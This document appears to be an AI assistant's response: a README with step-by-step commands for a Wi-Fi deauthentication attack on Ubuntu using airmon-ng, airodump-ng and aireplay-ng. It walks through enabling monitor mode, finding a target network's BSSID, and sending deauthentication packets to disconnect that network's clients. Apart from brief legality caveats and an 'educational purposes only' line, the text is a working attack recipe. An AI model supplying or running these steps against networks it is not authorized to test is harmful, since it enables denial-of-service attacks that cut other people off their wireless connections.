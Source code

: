 Here's a basic README for performing a deauthentication attack using `airmon-ng` in Ubuntu:

---

# Deauthentication Attack using `airmon-ng` on Ubuntu

This guide will walk you through the steps to execute a deauthentication attack on a wireless network using `airmon-ng` tool in Ubuntu.

## Prerequisites

- Ubuntu OS installed
- Wireless network interface (e.g., wlan0)
- `airmon-ng` tool installed (usually comes pre-installed with `aircrack-ng` suite)

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0).

3. **Put Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command will create a new monitor interface (usually `wlan0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:
    ```bash
    iwconfig
    ```
    You should see your interface listed in monitor mode (e.g., `wlan0mon`).

5. **Scan for Target Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:
    ```bash
    sudo airodump-ng wlan0mon
    ```
    Identify the BSSID and channel of the target network.

6. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:
    ```bash
    sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
    ```
    Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

    `-0` flag specifies the deauthentication attack.
    `5` represents the number of deauthentication packets to send. Adjust as needed.

7. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

8. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:
    ```bash
    sudo airmon-ng stop wlan0mon
    ```
    Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.

---

Remember, this README is for educational purposes only, and performing such attacks without proper authorization could be illegal. Always ensure you have the necessary permissions and use this knowledge responsibly.
